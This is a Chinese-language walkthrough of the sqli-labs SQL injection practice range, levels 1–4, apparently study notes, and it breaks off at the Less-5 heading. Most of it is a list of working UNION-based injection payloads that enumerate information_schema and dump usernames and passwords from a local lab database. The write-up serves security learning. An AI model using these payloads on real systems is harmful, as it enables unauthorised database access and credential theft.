# sql-labs

+ 参考通关秘籍：[sqli-labs 1-65 通关讲解](https://blog.csdn.net/dreamthe/article/details/123795302?ops_request_misc=%7B%22request%5Fid%22%3A%22170443063816800227461809%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170443063816800227461809&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-123795302-null-null.142^v99^control&utm_term=sqli-labs通关&spm=1018.2226.3001.4187)

## sql-labs安装

+ 修改对应文件<code>phpstudy_pro\WWW\sqli-labs\sql-connections\db-creds.inc</code>下的账号及密码

+ 网站所用的<code>php</code>版本设置为<code>php5</code>版本

+ 打开对应的网址，点击下图红框中的语句初始化数据库

+ 出现下面的画面，表示数据库初始化成功

## mysql数据结构

~~~ tex
    练习靶场前需了解以下mysql数据库结构，mysql数据库5.0以上版本有一个自带的数据库叫做information_schema,该数据库下面有两个表一个是tables和columns。tables这个表的table_name字段下面是所有数据库存在的表名。table_schema字段下是所有表名对应的数据库名。columns这个表的colum_name字段下是所有数据库存在的字段名。columns_schema字段下是所有表名对应的数据库。
~~~

## sql-labs通关

### Less-1

#### 判断是否存在sql注入

1. 提示输入数字值的ID作为参数，输入<code>?id=1</code>

2. 分别注入<code>?id=1</code>、<code>?id=2</code>、<code>?id=3</code>，注入的数字值不同返回的内容也不同所以可以判断注入的内容已经被带入到数据库里查询

3. 分别注入<code>?id=1'</code>和<code>?id=1'--+</code>, 判断sql语句是否可以拼接，且是字符型还是数字型

+ 可根据上面结果确定是字符型注入且存在sql注入漏洞

+ 该页面存在回显，所以可用联合查询。联合查询就是两个sql语句一起查询，两张表具有相同列数且字段名一样.

#### 联合注入查询

1. 注入<code>?id=1'order by 3 --+</code>和<code>?id=1'order by 4 --+</code> 知道表格有几列，如果报错就是超过列数，如果显示正常就是没有超出列数

~~~ shell
?id=1'order by 3 --+
?id=1'order by 4 --+
~~~

2. 注入<code>?id=-1'union select 1,2,3--+</code>爆显示位，看表格里哪一列在页面显示；可看到第二列和第三列里的数据显示在页面

~~~ shell
?id=-1'union select 1,2,3--+
~~~

3. 注入<code>?id=-1'union select 1,database(),version()--+</code>获取当前数据库名和版本号，这个涉及mysql数据库的一些函数，记得就行

~~~ shell
?id=-1'union select 1,database(),version()--+
~~~

4. 注入<code>?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+</code>爆数据表，

~~~ shell
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

information_schema.tables表示该数据库下的tables表，点表示下一级;where后面是条件，group_concat()是将查询到结果连接起来;如果不用group_concat查询到的只有user;
该语句的意思是查询information_schema数据库下的tables表里面且table_schema字段内容是security的所有table_name的内容，也即下面表格user和passwd;
~~~

5. 注入<code>?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+</code>爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在users表中。接下来想得到该表下的字段名以及内容。

~~~ shell
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

该语句意思是查询information_schema数据库下的columns表里table_name字段是users的所有column_name内容。注意table_name字段不是只存在于tables表也存在于columns表中;其实是表示所有字段对应的表名;
~~~

6. 通过上述操作可得到两敏感字段<code>username</code>和<code>password</code>,接下来注入<code>?id=-1' union select 1,2,group_concat(username ,id , password) from users--+</code>得到字段对应的内容，在中间加了一个id可以隔一下账户和密码。

~~~ shell
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
~~~

### Less-2

+ 第二关地址

~~~ shell
http://localhost/sqli-labs/Less-2/
~~~

+ 和第一关是一样进行判断，当输入单引号或者双引号可看到报错且报错信息看不到数字，所有可猜测sql语句应该是数字型注入。

~~~ 
?id=1 '
?id=1 "
~~~



+ 然后基本注入方式和第一关一样，注入语句

~~~ shell
?id=1 order by 3
~~~



+ 注入

~~~ shell
?id=-1 union select 1,2,3
~~~



+ 注入

~~~ shell
?id=-1 union select 1,database(),version()
~~~



+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
~~~

+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'
~~~



+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(username, id, password) from users
~~~



### Less-3

+ 首先注入以下内容判断<code>sql</code>语句类型

~~~ shell
?id=1'
~~~

从上面的页面报错信息可推断<code>sql</code>语句是单引号字符型且有括号，所以需要闭合单引号且也需要考虑括号

+ 根据下面的代码构建进行<code>sql</code>注入，后面所有的代码以此为基础进行构造

~~~ shell
?id=1')--+
?id=1') order by 3--+
?id=-1') union select 1,2,3--+
?id=-1') union select 1,database(),version()--+
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~

+ 注入下面的<code>sql</code>语句：

~~~ shell
?id=1')--+
~~~

+ 注入以下语句进行

~~~ shell
?id=1') order by 3--+
~~~



+ 注入以下语句

~~~ shell
?id=1') order by 4--+
~~~

+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,3 --+
~~~

+ 注入以下语句

~~~ shell
?id=-1') union select 1,version(),database() --+
~~~

+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
~~~

+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='user'--+
~~~



+ 注入以下语句，成功爆破

~~~ shell
?id=-1') union select 1,2,group_concat(username ,id , password) from users--+
~~~

### Less-4

+ 根据下面代码<code>sql</code>注入

~~~ shell
?id=1") order by 3--+
?id=-1") union select 1,2,3--+
?id=-1") union select 1,database(),version()--+
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1") union select 1,2,group_concat(username ,id , password) from users--+
~~~

+ 首先注入以下语句

~~~ shell
?id=1
~~~

+ 注入以下语句

~~~ shell
?id=1'
~~~

没有变化，说明<code>sql</code>语句不是单引号<code>'</code>字符型

+ 注入以下语句

~~~ shell
?id=1"
~~~

根据页面报错信息得知<code>sql</code>语句是双引号字符型且有括号

+ 注入以下语句

~~~ shell
?id=1")--+
~~~

+ 注入以下语句

~~~ shell
?id=1") order by 3--+
~~~



+ 注入以下语句

~~~ shell
?id=1") order by 4--+
~~~



+ 注入以下语句

~~~ shell
?id=-1") union select 1,version(),database()--+
~~~



+ 注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'--+
~~~



+ 注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'--+
~~~

+ 最后注入以下语句

~~~ shell
?id=-1") union select 1,2,group_concat(username,id,password) from users--+
~~~



### Less-5

